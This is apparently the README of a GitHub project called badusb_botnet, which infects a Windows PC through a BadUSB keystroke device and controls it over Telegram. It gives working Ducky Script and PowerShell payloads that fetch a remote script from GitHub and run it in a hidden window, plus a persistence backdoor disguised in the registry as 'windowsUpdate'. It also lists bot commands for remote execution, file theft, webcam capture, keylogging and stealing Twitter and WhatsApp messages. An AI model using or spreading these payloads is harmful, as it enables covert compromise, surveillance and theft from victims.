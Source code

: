 # badusb_botnet
:smiling_imp::busts_in_silhouette: Infect a pc with badusb and establish a connection through telegram.

## Option 1

```
> (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
> powershell.exe -windowstyle hidden -file poc.ps1
```

```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING (new-object net.webclient).DownloadFile('https://github.com/alexfrancow/badusb_botnet/blob/master/poc.ps1','poc.ps1')
DELAY 500
ENTER
STRING powershell.exe -windowstyle hidden -file poc.ps1
DELAY 500
ENTER
```

## Option 2 (Backdoor)

```
> reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
> Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
> reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
```
```
DELAY 3000
GUI r
DELAY 500
STRING powershell
DELAY 500
ENTER
DELAY 750
STRING reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /f
DELAY 500
ENTER
STRING Invoke-WebRequest -Uri https://raw.githubusercontent.com/alexfrancow/badusb_botnet/master/poc.ps1 -OutFile C:\Users\$env:username\Documents\windowsUpdate.ps1
DELAY 500
ENTER
STRING reg add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v windowsUpdate /t REG_SZ /d "powershell.exe -windowstyle hidden -file C:\Users\$env:username\Documents\windowsUpdate.ps1"
DELAY 500
ENTER
```

### Telegram Options

#### Basic

- /list (List all devices availables)
- /select ```IP``` ```command``` (Execute a command in a PC)
- /stop ```IP``` (Stop remote connection with a PC)
- /cleanAll ```IP``` (Clean all files in a PC)
- /ipPublic ```IP``` (Geolocate IP)
- /download ```IP``` ```file``` (Download a file from a PC)

#### Advanced

- /screenshot ```IP``` (Capture screen of a PC)
- /backdoor ```IP``` (Create a persistent backdoor in a PC)
- /webcam ```IP```
- /nc ```IP``` (nc -lp 8888)
- /keylogger ```IP``` ```time``` [It doesn't work]

#### Ultra :squirrel: 

:earth_africa:

- /hackT ```IP``` (Get Twitter dms if the victim is authenticated) [Only web - W10]
- /hackW ```IP``` (Get WhatsApp messages if the victim is authenticated) [Only Web - W10]

<img src="https://static-cdn.jtvnw.net/emoticons/v1/112290/1.0" width="24px" height="24px" /> 

- /starttwitch ```IP``` ```STREAM_KEY``` (Start a video transmission on Twitch)
- /stoptwitch ```IP``` (Stop ffmpeg.exe and erase all archives)

##### {TODO}

- Change all Invoke-WebRequest to cURL. (Invoke-WebRequest requires set up Internet Explorer)
- Hack WhatsApp on .exe.
- Fix Twitch streaming.
- Fix keylogger.
- Add monitor selector to screenshot.
- Add windows version detector in HackTwitterW10() and hackWhatsAPPW10() functions.
